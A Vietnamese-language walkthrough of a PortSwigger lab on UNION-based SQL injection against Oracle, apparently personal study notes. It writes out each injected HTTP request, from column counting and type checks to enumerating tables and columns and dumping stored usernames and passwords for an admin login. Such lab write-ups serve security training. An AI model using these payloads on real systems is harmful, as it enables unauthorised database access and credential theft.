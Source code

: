 # [Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

Lỗ hổng: Phía server không có phòng thủ với SQLi, lấy thông tin các bảng, cột trong bảng và dữ liệu từ bảng khác.

1.  Truy cập vào mục tiêu, và tìm các user input có liên quan đến sql:
    - `GET /filter?category=Accessories HTTP/1.1`
2.  Kiểm tra SQLi:
    - `GET /filter?category=' HTTP/1.1`
    - ![ae2e8d46d97e83a1b9a45bcaae125737.png](../../../../../../_resources/ae2e8d46d97e83a1b9a45bcaae125737.png)
3.  Sử dụng UNION để kiểm tra số cột:
    - Gửi request đến intruder và test với payload từ 1 đến 10
    - `GET /filter?category='+ORDER+BY+§§-- HTTP/1.1`
    - Kết quả: ![8fe46860956051009997c1633e8f4cd8.png](../../../../../../_resources/8fe46860956051009997c1633e8f4cd8.png)
    - Lỗi từ số 3 => có 2 cột.
4. Kiểm tra kiểu dữ liệu cả 2 cột:
	- Ở Oracle thì câu lệnh `SELECT` phải đi cùng `FROM`
	- `GET /filter?category='UNION+SELECT+'s','s'+FROM+dual-- HTTP/1.1`
	- ![96d315d5ea8077653ace87d474e8ea35.png](../../../../../../_resources/96d315d5ea8077653ace87d474e8ea35.png)
	- => Cả 2 cột là kiểu string
5. Tìm kiếm cách lấy thông tin của db oracle:
	- https://portswigger.net/web-security/sql-injection/cheat-sheet
	- https://docs.oracle.com/database/121/REFRN/GUID-6823CD28-0681-468E-950B-966C6F71325D.htm#REFRN20286  
	- `GET /filter?category='UNION+SELECT+NULL,TABLE_NAME+FROM+all_tables-- HTTP/1.1`
	- ![168d4873d1c560d032cf5205da18c3d4.png](../../../../../../_resources/168d4873d1c560d032cf5205da18c3d4.png)
	- Tìm kiếm bảng khả nghi, `USERS_ZPJVMK`
6. Tìm kiếm tên cột của bảng `USERS_ZPJVMK`:
	- https://portswigger.net/web-security/sql-injection/cheat-sheet
	- https://docs.oracle.com/database/121/REFRN/GUID-F218205C-7D76-4A83-8691-BFD2AD372B63.htm#REFRN20277
	- `GET /filter?category='UNION+SELECT+NULL,COLUMN_NAME+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_ZPJVMK'-- HTTP/1.1`
	- ![f3f73b0257ca2d623e509e167e51bbe9.png](../../../../../../_resources/f3f73b0257ca2d623e509e167e51bbe9.png)
	- Lấy được tên cột là: `PASSWORD_TEOTEK` và `USERNAME_WMHJBY`
7. `GET /filter?category='UNION+SELECT+PASSWORD_TEOTEK,USERNAME_WMHJBY+FROM+USERS_ZPJVMK-- HTTP/1.1`
	- ![5d5ac28701084b6918fe9dd4cd92a38a.png](../../../../../../_resources/5d5ac28701084b6918fe9dd4cd92a38a.png)
	- Lấy được credentials
8. Đăng nhập với tài khoản admin lấy được => Lab Solved